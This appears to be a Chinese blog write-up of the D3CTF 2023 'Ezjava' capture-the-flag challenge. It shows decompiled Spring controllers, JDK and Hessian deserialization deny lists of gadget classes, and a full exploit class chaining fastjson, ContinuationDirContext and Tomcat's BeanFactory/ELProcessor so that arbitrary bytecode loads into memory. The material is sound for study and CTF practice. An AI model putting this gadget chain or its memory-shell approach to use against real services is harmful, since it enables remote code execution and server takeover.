







+++
title= "D3CTF2023 Ezjava"
slug= "d3ctf-2023-ezjava"
description= ""
date= "2025-11-20T21:27:35+08:00"
lastmod= "2025-11-20T21:27:35+08:00"
image= ""
license= ""
categories= ["Javasec"]
tags= [""]

+++

从华哥的博客里面拿到附件，打开一看是有docker的，这可是一件美事啊，拉docker的时候顶针到有个8u342，最近对这个比较敏感，可以直接BCEL加载字节码

有两个 jar 包两个服务



flag 在 server 里面，并且 server 是不暴露的

```java
package com.example.server.controller;

import ch.qos.logback.core.spi.AbstractComponentTracker;
import com.alibaba.fastjson2.JSON;
import com.example.server.data.Result;
import com.example.server.util.DefaultSerializer;
import com.example.server.util.Request;
import java.net.InetAddress;
import java.util.ArrayList;
import java.util.Base64;
import java.util.List;
import org.springframework.web.bind.annotation.GetMapping;
import org.springframework.web.bind.annotation.RestController;

@RestController
/* loaded from: server-0.0.1-SNAPSHOT.jar:BOOT-INF/classes/com/example/server/controller/IndexController.class */
public class IndexController {
    public static List<String> denyClasses = new ArrayList();
    public static long lastTimestamp = 0;

    @GetMapping({"/status"})
    public Result status() {
        String msg;
        try {
            long currentTimestamp = System.currentTimeMillis();
            msg = String.format("client %s is online", InetAddress.getLocalHost().getHostName());
            if (currentTimestamp - lastTimestamp > AbstractComponentTracker.LINGERING_TIMEOUT) {
                update();
                lastTimestamp = System.currentTimeMillis();
            }
        } catch (Exception e) {
            msg = "client is online";
        }
        return Result.of("200", msg);
    }

    public void update() {
        try {
            String json = Request.get("http://registry:8080/blacklist/jdk/get");
            Result result = (Result) JSON.parseObject(json, Result.class);
            Object msg = result.getMessage();
            if (msg instanceof String) {
                byte[] data = Base64.getDecoder().decode((String) msg);
                denyClasses = (List) DefaultSerializer.deserialize(data, denyClasses);
            } else if (msg instanceof List) {
                denyClasses = (List) msg;
            }
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

只有一个 /status 路由，你每 10 秒访问一次该接口，就能强制触发一次后端的`update()`操作，在 update 中，会访问 http://registry:8080/blacklist/jdk/get 暂时还不知道这个是干嘛的，然后用 JSON.parseObject 去解析一下，最后会进行一个反序列化。

```java
package com.example.server.util;

import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.InputStream;
import java.io.ObjectOutputStream;
import java.util.ArrayList;
import java.util.Base64;
import java.util.List;
import java.util.Scanner;

/* loaded from: server-0.0.1-SNAPSHOT.jar:BOOT-INF/classes/com/example/server/util/DefaultSerializer.class */
public class DefaultSerializer {
    public static String serialize(Object obj) throws Exception {
        ByteArrayOutputStream out = new ByteArrayOutputStream();
        ObjectOutputStream objOut = new ObjectOutputStream(out);
        objOut.writeObject(obj);
        return encode(out.toByteArray());
    }

    public static String encode(byte[] data) throws Exception {
        return Base64.getEncoder().encodeToString(data);
    }

    public static Object deserialize(byte[] obj, List<String> denyClasses) throws Exception {
        if (denyClasses == null || denyClasses.isEmpty()) {
            denyClasses = readBlackList("security/jdk_blacklist.txt");
        }
        ByteArrayInputStream in = new ByteArrayInputStream(obj);
        AntObjectInputStream objIn = new AntObjectInputStream(in);
        objIn.setDenyClasses(denyClasses);
        return objIn.readObject();
    }

    public static List<String> readBlackList(String blackListFile) {
        List<String> result = new ArrayList<>();
        ClassLoader classLoader = Thread.currentThread().getContextClassLoader();
        InputStream inputStream = classLoader.getResourceAsStream(blackListFile);
        if (inputStream != null) {
            Scanner scanner = null;
            try {
                scanner = new Scanner(inputStream);
                while (scanner.hasNextLine()) {
                    String nextLine = scanner.nextLine();
                    if (!isBlank(nextLine)) {
                        result.add(nextLine);
                    }
                }
                if (scanner != null) {
                    scanner.close();
                }
            } catch (Exception e) {
                if (scanner != null) {
                    scanner.close();
                }
            } catch (Throwable th) {
                if (scanner != null) {
                    scanner.close();
                }
                throw th;
            }
        }
        return result;
    }

    static boolean isBlank(String cs) {
        int strLen;
        if (cs == null || (strLen = cs.length()) == 0) {
            return true;
        }
        for (int i = 0; i < strLen; i++) {
            if (!Character.isWhitespace(cs.charAt(i))) {
                return false;
            }
        }
        return true;
    }
}
```

只有当传入的名单为空时，加载默认的本地黑名单 BOOT-INF/classes/security/jdk_blacklist.txt

```java
bsh.Interpreter  
bsh.XThis  
clojure.core$constantly  
clojure.main$eval_opt  
com.mchange.v2.c3p0.JndiRefForwardingDataSource  
com.mchange.v2.c3p0.WrapperConnectionPoolDataSource  
com.mchange.v2.c3p0.impl.PoolBackedDataSourceBase  
com.rometools.rome.feed.impl.EqualsBean  
com.rometools.rome.feed.impl.ToStringBean  
com.sun.jndi.ldap.LdapAttribute  
com.sun.jndi.rmi.registry.BindingEnumeration  
com.sun.jndi.toolkit.dir.LazySearchEnumerationImpl  
com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl  
com.sun.rowset.JdbcRowSetImpl  
com.sun.syndication.feed.impl.ObjectBean  
com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data  
com.alibaba.fastjson.JSONObject  
com.alibaba.fastjson2.JSONObject  
java.beans.EventHandler  
java.lang.reflect.Proxy  
java.net.URL  
java.rmi.registry.Registry  
java.rmi.server.ObjID  
java.rmi.server.RemoteObjectInvocationHandler  
java.rmi.server.UnicastRemoteObject  
java.security.SignedObject  
java.util.Comparator  
java.util.PriorityQueue  
java.util.ServiceLoader$LazyIterator  
javax.imageio.ImageIO$ContainsFilter  
javax.management.BadAttributeValueExpException  
javax.management.MBeanServerInvocationHandler  
javax.management.openmbean.CompositeDataInvocationHandler  
javax.naming.InitialContext  
javax.naming.spi.ObjectFactory  
javax.script.ScriptEngineManager  
javax.xml.transform.Templates  
net.sf.json.JSONObject  
org.apache.commons.beanutils.BeanComparator  
org.apache.commons.collections.Transformer  
org.apache.commons.collections.functors.ChainedTransformer  
org.apache.commons.collections.functors.ConstantTransformer  
org.apache.commons.collections.functors.InstantiateTransformer  
org.apache.commons.collections.functors.InvokerTransformer  
org.apache.commons.collections4.comparators.TransformingComparator  
org.apache.commons.collections4.functors.ChainedTransformer  
org.apache.commons.collections4.functors.ConstantTransformer  
org.apache.commons.collections4.functors.InstantiateTransformer  
org.apache.commons.collections4.functors.InvokerTransformer  
org.apache.commons.dbcp.datasources.PerUserPoolDataSource  
org.apache.commons.dbcp.datasources.SharedPoolDataSource  
org.apache.commons.dbcp2.datasources.PerUserPoolDataSource  
org.apache.commons.fileupload.disk.DiskFileItem  
org.apache.myfaces.context.servlet.FacesContextImpl  
org.apache.myfaces.context.servlet.FacesContextImplBase  
org.apache.myfaces.el.CompositeELResolver  
org.apache.myfaces.el.unified.FacesELContext  
org.apache.myfaces.view.facelets.el.ValueExpressionMethodExpression  
org.apache.tomcat.dbcp.dbcp.datasources.PerUserPoolDataSource  
org.apache.tomcat.dbcp.dbcp.datasources.SharedPoolDataSource  
org.apache.tomcat.dbcp.dbcp2.datasources.PerUserPoolDataSource  
org.apache.wicket.util.upload.DiskFileItem  
org.apache.xalan.xsltc.trax.TemplatesImpl  
org.apache.xbean.naming.context.ContextUtil$ReadOnlyBinding  
org.codehaus.groovy.runtime.ConvertedClosure  
org.codehaus.groovy.runtime.MethodClosure  
org.hibernate.engine.spi.TypedValue  
org.hibernate.tuple.component.AbstractComponentTuplizer  
org.hibernate.tuple.component.PojoComponentTuplizer  
org.hibernate.type.AbstractType  
org.hibernate.type.ComponentType  
org.hibernate.type.Type  
org.jboss.interceptor.builder.InterceptionModelBuilder  
org.jboss.interceptor.builder.MethodReference  
org.jboss.interceptor.proxy.DefaultInvocationContextFactory  
org.jboss.interceptor.proxy.InterceptorMethodHandler  
org.jboss.interceptor.reader.ClassMetadataInterceptorReference  
org.jboss.interceptor.reader.DefaultMethodMetadata  
org.jboss.interceptor.reader.ReflectiveClassMetadata  
org.jboss.interceptor.reader.SimpleInterceptorMetadata  
org.jboss.interceptor.spi.instance.InterceptorInstantiator  
org.jboss.interceptor.spi.metadata.InterceptorReference  
org.jboss.interceptor.spi.metadata.MethodMetadata  
org.jboss.interceptor.spi.model.InterceptionModel  
org.jboss.interceptor.spi.model.InterceptionType  
org.jboss.weld.interceptor.builder.InterceptionModelBuilder  
org.jboss.weld.interceptor.builder.MethodReference  
org.jboss.weld.interceptor.proxy.DefaultInvocationContextFactory  
org.jboss.weld.interceptor.proxy.InterceptorMethodHandler  
org.jboss.weld.interceptor.reader.ClassMetadataInterceptorReference  
org.jboss.weld.interceptor.reader.DefaultMethodMetadata  
org.jboss.weld.interceptor.reader.ReflectiveClassMetadata  
org.jboss.weld.interceptor.reader.SimpleInterceptorMetadata  
org.jboss.weld.interceptor.spi.instance.InterceptorInstantiator  
org.jboss.weld.interceptor.spi.metadata.InterceptorReference  
org.jboss.weld.interceptor.spi.metadata.MethodMetadata  
org.jboss.weld.interceptor.spi.model.InterceptionModel  
org.jboss.weld.interceptor.spi.model.InterceptionType  
org.mozilla.javascript.Context  
org.mozilla.javascript.IdScriptableObject  
org.mozilla.javascript.MemberBox  
org.mozilla.javascript.NativeError  
org.mozilla.javascript.NativeJavaMethod  
org.mozilla.javascript.NativeJavaObject  
org.mozilla.javascript.NativeObject  
org.mozilla.javascript.ScriptableObject  
org.python.core.PyBytecode  
org.python.core.PyFunction  
org.python.core.PyObject  
org.reflections.Reflections  
org.springframework.aop.aspectj.autoproxy.AspectJAwareAdvisorAutoProxyCreator$PartiallyComparableAdvisorHolder  
org.springframework.aop.framework.AdvisedSupport  
org.springframework.aop.framework.JdkDynamicAopProxy  
org.springframework.aop.support.DefaultBeanFactoryPointcutAdvisor  
org.springframework.aop.target.SingletonTargetSource  
org.springframework.beans.factory.ObjectFactory  
org.springframework.beans.factory.config.PropertyPathFactoryBean  
org.springframework.beans.factory.support.DefaultListableBeanFactory  
org.springframework.core.SerializableTypeWrapper$MethodInvokeTypeProvider  
org.springframework.core.SerializableTypeWrapper$TypeProvider  
org.springframework.jndi.support.SimpleJndiBeanFactory  
org.springframework.transaction.jta.JtaTransactionManager  
sun.rmi.server.UnicastRef  
sun.rmi.server.UnicastRef2  
com.mysql.jdbc.jdbc2.optional.MysqlDataSource  
org.jboss.proxy.ejb.handle.HomeHandleImpl
```

所以就是如何覆盖黑名单为空或者任意类，就可以打反序列化了，接着看 registry

```java
package com.example.registry.controller;

import com.alibaba.fastjson2.JSON;
import com.example.registry.data.Blacklist;
import com.example.registry.data.Result;
import com.example.registry.util.DefaultSerializer;
import com.example.registry.util.HessianSerializer;
import com.example.registry.util.Request;
import io.swagger.v3.oas.annotations.Operation;
import io.swagger.v3.oas.annotations.tags.Tag;
import java.util.Base64;
import org.springframework.web.bind.annotation.GetMapping;
import org.springframework.web.bind.annotation.PostMapping;
import org.springframework.web.bind.annotation.RestController;

@Tag(name = "Registry Controller")
@RestController
/* loaded from: registry-0.0.1-SNAPSHOT.jar:BOOT-INF/classes/com/example/registry/controller/MainController.class */
public class MainController {
    @GetMapping({"/"})
    @Operation(description = "hello for all")
    public String hello() {
        return "hello";
    }

    @GetMapping({"/client/status"})
    @Operation(description = "registry will request client '/status' to get client status.")
    public Result clientStatus() {
        try {
            String json = Request.get("http://server:8080/status");
            return (Result) JSON.parseObject(json, Result.class);
        } catch (Exception e) {
            return Result.of("500", "client is down");
        }
    }

    @GetMapping({"/blacklist/jdk/get"})
    @Operation(description = "return serialized blacklist for client. Client will require blacklist every 10 sec.")
    public Result getBlacklist() {
        String data;
        try {
            data = DefaultSerializer.serialize(Blacklist.readBlackList(Blacklist.DEFAULT_JDK_SERIALIZE_BLACK_LIST));
        } catch (Exception e) {
            data = e.getMessage();
        }
        return Result.of("200", data);
    }

    @GetMapping({"/blacklist/hessian/get"})
    @Operation(description = "get serialized blacklist for registry")
    public Result getHessianBlacklist() {
        String data;
        try {
            data = DefaultSerializer.serialize(Blacklist.hessianBlackList);
        } catch (Exception e) {
            data = e.getMessage();
        }
        return Result.of("200", data);
    }

    @PostMapping({"/hessian/deserialize"})
    @Operation(description = "deserialize base64Str using hessian")
    public Result deserialize(String base64Str) {
        String data;
        String code = "200";
        try {
            byte[] serialized = Base64.getDecoder().decode(base64Str);
            HessianSerializer.deserialize(serialized);
            data = "deserialize success";
        } catch (Exception e) {
            data = "error: " + e.getMessage();
            code = "500";
        }
        return Result.of(code, data);
    }
}
```

- /client/status  会去访问 server 的status路由，并且使用 JSON.parseObject 进行解析（更新黑名单）
- /blacklist/jdk/get  返回 jdk_blacklist.txt 黑名单序列化后的数据
- /blacklist/hessian/get  返回 hessian_blacklist.txt 黑名单序列化后的数据
- /hessian/deserialize 接受base64Str参数，将其base64解密后判断是否存在黑名单类后进行hessian2反序列化



BOOT-INF/classes/security/hessian_blacklist.txt

```java
bsh.Interpreter
bsh.XThis
ch.qos.logback.core.db.DriverManagerConnectionSource
ch.qos.logback.core.db.JNDIConnectionSource
clojure.core$constantly
clojure.main$eval_opt
com.caucho.naming.QName
com.mchange.v2.c3p0.JndiRefForwardingDataSource
com.mchange.v2.c3p0.WrapperConnectionPoolDataSource
com.rometools.rome.feed.impl.EqualsBean
com.rometools.rome.feed.impl.ToStringBean
com.sun.corba.se.impl.activation.ServerManagerImpl
com.sun.corba.se.impl.activation.ServerTableEntry
com.sun.corba.se.impl.presentation.rmi.InvocationHandlerFactoryImpl.CustomCompositeInvocationHandlerImpl
com.sun.corba.se.spi.orbutil.proxy.CompositeInvocationHandlerImpl
com.sun.corba.se.spi.orbutil.proxy.LinkedInvocationHandler
com.sun.jndi.rmi.registry.BindingEnumeration
com.sun.jndi.toolkit.dir.LazySearchEnumerationImpl
com.sun.org.apache.bcel.internal.util.ClassLoader
com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl
com.sun.org.apache.xpath.internal.XPathContext
com.sun.org.apache.xpath.internal.objects.XString
com.sun.rowset.JdbcRowSetImpl
com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data
groovy.lang.GString
groovy.util.MapEntry
java.beans.Expression
java.lang.ProcessBuilder
java.lang.Runtime
java.rmi.server.UnicastRemoteObject
java.security.SignedObject
java.util.ServiceLoader$LazyIterator
java.util.StringTokenizer
java.util.TreeSet
java.util.HashSet
javassist.bytecode.annotation.Annotation
javassist.bytecode.annotation.AnnotationImpl
javassist.bytecode.annotation.AnnotationMemberValue
javassist.tools.web.Viewer
javassist.util.proxy.SerializedProxy
javax.activation.MimeTypeParameterList
javax.imageio.ImageIO$ContainsFilter
javax.imageio.spi.ServiceRegistry
javax.management.BadAttributeValueExpException
javax.management.ImmutableDescriptor
javax.management.remote.rmi.RMIConnector
javax.naming.InitialContext
javax.naming.ldap.Rdn
javax.naming.spi.ObjectFactory
javax.script.ScriptEngineManager
javax.sound.sampled.AudioFileFormat
javax.sound.sampled.AudioFormat
javax.swing.UIDefaults
javax.xml.transform.Templates
org.apache.bcel.util.ClassLoader
org.apache.commons.beanutils.BeanComparator
org.apache.commons.beanutils.BeanToPropertyValueTransformer
org.apache.commons.collections.functors.InvokerTransformer
org.apache.commons.collections4.functors.InvokerTransformer
org.apache.commons.fileupload.disk.DiskFileItem
org.apache.commons.lang3.compare.ObjectToStringComparator
org.apache.ibatis.javassist.tools.web.Viewer
org.apache.ibatis.javassist.util.proxy.SerializedProxy
org.apache.log4j.receivers.db.DriverManagerConnectionSource
org.apache.tomcat.dbcp.dbcp.BasicDataSource
org.apache.tomcat.dbcp.dbcp.datasources.SharedPoolDataSource
org.apache.tomcat.dbcp.dbcp2.BasicDataSource
org.apache.xalan.xsltc.trax.TemplatesImpl
org.apache.xbean.naming.context.ContextUtil$ReadOnlyBinding
org.apache.xpath.XPathContext
org.aspectj.apache.bcel.util.ClassLoader
org.codehaus.groovy.runtime.MethodClosure
org.eclipse.jetty.util.log.LoggerLog
org.springframework.aop.aspectj.autoproxy.AspectJAwareAdvisorAutoProxyCreator$PartiallyComparableAdvisorHolder
org.springframework.aop.support.DefaultBeanFactoryPointcutAdvisor
org.springframework.aop.aspectj.AspectJAroundAdvice
org.springframework.beans.BeanWrapperImpl$BeanPropertyHandler
org.springframework.beans.factory.BeanFactory
org.springframework.beans.factory.config.MethodInvokingFactoryBean
org.springframework.beans.factory.config.PropertyPathFactoryBean
org.springframework.beans.factory.support.DefaultListableBeanFactory$DependencyObjectFactory
org.springframework.cache.interceptor.BeanFactoryCacheOperationSourceAdvisor
org.springframework.expression.spel.ast.Indexer$PropertyIndexingValueRef
org.springframework.expression.spel.ast.MethodReference$MethodValueRef
org.springframework.jndi.JndiObjectTargetSource
org.springframework.jndi.support.SimpleJndiBeanFactory
org.springframework.orm.jpa.AbstractEntityManagerFactoryBean
org.springframework.transaction.jta.JtaTransactionManager
sun.rmi.server.UnicastRef
sun.swing.SwingLazyValue
sun.print
```

查看依赖



## exp1

说实话第一次做这种 ssrf 的 Java 题思路很乱，首先打入 registry 内存马，由于 server 每次都会来获取黑名单，所以做一个拦截，给非空的无害黑名单，再打入一次内存马即可。使用的 gadget 几乎是微调一下 我写的 https://baozongwi.xyz/p/resin-deserialization-vuln/ 中后面两个 poc，

```java
package org.example;

import com.alibaba.fastjson.JSONObject;
import com.caucho.hessian.io.Hessian2Input;
import com.caucho.hessian.io.Hessian2Output;
import javassist.ClassPool;
import javassist.CtClass;
import org.apache.naming.ResourceRef;

import javax.naming.CannotProceedException;
import javax.naming.StringRefAddr;
import javax.naming.directory.DirContext;
import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.lang.reflect.Constructor;
import java.util.Base64;
import java.net.URLEncoder;
import java.util.Hashtable;

public class Exp1 {
    public static void main(String[] args) throws Exception {
        ClassPool pool = ClassPool.getDefault();
        //CtClass clazz = pool.get(SpringInterceptorBehinderForEzJava.class.getName());
        CtClass clazz = pool.get(Evil.class.getName());
        clazz.setName("Evil");
        String clazz_base64 = Base64.getEncoder().encodeToString(clazz.toBytecode());

        String code = "var bytes = org.apache.tomcat.util.codec.binary.Base64.decodeBase64('" + clazz_base64 + "');\n" +
                "var classLoader = java.lang.Thread.currentThread().getContextClassLoader();\n" +
                "var method = java.lang.ClassLoader.class.getDeclaredMethod('defineClass', ''.getBytes().getClass(), java.lang.Integer.TYPE, java.lang.Integer.TYPE);\n" +
                "method.setAccessible(true);\n" +
                "var clazz = method.invoke(classLoader, bytes, 0, bytes.length);\n" +
                "clazz.newInstance();";


        ResourceRef ref = new ResourceRef("javax.el.ELProcessor", null, "", "", true, "org.apache.naming.factory.BeanFactory", null);
        ref.add(new StringRefAddr("forceString", "x=eval"));
        ref.add(new StringRefAddr("x", "\"\".getClass().forName(\"javax.script.ScriptEngineManager\").newInstance().getEngineByName(\"JavaScript\").eval(\"" + code + "\")"));

        Class<?> clazzc = Class.forName("javax.naming.spi.ContinuationDirContext");
        Constructor<?> constructor = clazzc.getDeclaredConstructor(CannotProceedException.class, Hashtable.class);
        constructor.setAccessible(true);

        CannotProceedException cpe = new CannotProceedException();
        cpe.setResolvedObj(ref);

        DirContext ctx = (DirContext) constructor.newInstance(cpe, new Hashtable<>());
        JSONObject jsonObject = new JSONObject();
        jsonObject.put("test",ctx);

        byte[] data = Hessian2_serialize(jsonObject);
        //System.out.println(URLEncoder.encode(Base64.getEncoder().encodeToString(data)));
        Hessian2_unserialize(data);
    }
    public static byte[] Hessian2_serialize(Object o) throws Exception {
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        Hessian2Output hessian2Output = new Hessian2Output(baos);
        baos.write(67);
        hessian2Output.getSerializerFactory().setAllowNonSerializable(true);
        hessian2Output.writeObject(o);
        hessian2Output.flush();
        return baos.toByteArray();
    }
    public static Object Hessian2_unserialize(byte[] bytes) throws Exception {
        ByteArrayInputStream bais = new ByteArrayInputStream(bytes);
        Hessian2Input hessian2Input = new Hessian2Input(bais);
        Object o = hessian2Input.readObject();
        return o;
    }
}
```



调用栈

```java
at javax.el.ELProcessor.eval(ELProcessor.java:54)
at sun.reflect.NativeMethodAccessorImpl.invoke0(NativeMethodAccessorImpl.java:-1)
at sun.reflect.NativeMethodAccessorImpl.invoke(NativeMethodAccessorImpl.java:62)
at sun.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)
at java.lang.reflect.Method.invoke(Method.java:498)
at org.apache.naming.factory.BeanFactory.getObjectInstance(BeanFactory.java:210)
at javax.naming.spi.NamingManager.getObjectInstance(NamingManager.java:321)
at javax.naming.spi.NamingManager.getContext(NamingManager.java:439)
at javax.naming.spi.ContinuationContext.getTargetContext(ContinuationContext.java:55)
at javax.naming.spi.ContinuationContext.getEnvironment(ContinuationContext.java:197)
at javax.naming.spi.ContinuationDirContext$$Lambda$25.1026871825.apply(Unknown Source:-1)
at com.alibaba.fastjson2.writer.FieldWriterObjectFunc.getFieldValue(FieldWriterObjectFunc.java:36)
at com.alibaba.fastjson2.writer.FieldWriterObject.write(FieldWriterObject.java:189)
